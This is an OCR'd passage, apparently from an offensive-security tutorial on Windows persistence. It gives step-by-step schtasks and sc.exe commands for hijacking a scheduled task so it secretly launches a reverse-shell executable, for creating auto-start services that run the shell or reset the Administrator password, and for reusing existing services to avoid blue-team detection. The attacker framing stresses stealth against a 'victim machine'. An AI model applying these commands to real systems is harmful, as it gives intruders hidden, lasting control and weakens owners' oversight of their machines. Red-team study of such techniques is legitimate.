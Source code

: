 ### Multi-Action Schedule task persistence

Scheduled tasks can be modified to perform more than one action. This allows us to modify pre-existing scheduled task such that along with our malicious task it will also perform the intented legitimate task, Thus would provide more stealth. Multi-action tasks will display Multiple actions under Task To Run, when listed with schtasks.exe

To configure a multi-action scheduled task, first export scheduled task as XML:

schtasks /query /tn “CHANGEME” /xml > task.xml

Edit task.xml, adding an <Exec> stanza within <Actions>:

<Exec>  
    <Command>C:\windows\revshell.exe</Command>  
    <Command>C:\Program Files\Mozilla Firefox\updater.exe</Command>  
</Exec>

Delete the old task and install the modified task:

schtasks /delete /tn “CHANGEME” /f  
schtasks /create /tn “CHANGEME” /xml task.xml

# Persistence Using Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started.A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence:

### Create a new Service :

We can create our malicious service to run our revsershell payload :

sc.exe create EvilService binPath= “net user Administrator Passwd123” start= auto  
sc.exe start EvilService  
  
# or  
  
sc.exe create Evilservice2 binPath= “C:\windows\revshell.exe” start= auto  
sc.exe start Evilservice2

### Modifying the existing service :

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Here is how we can do it :

# You can get a list of available services using this command  
sc.exe query state=all
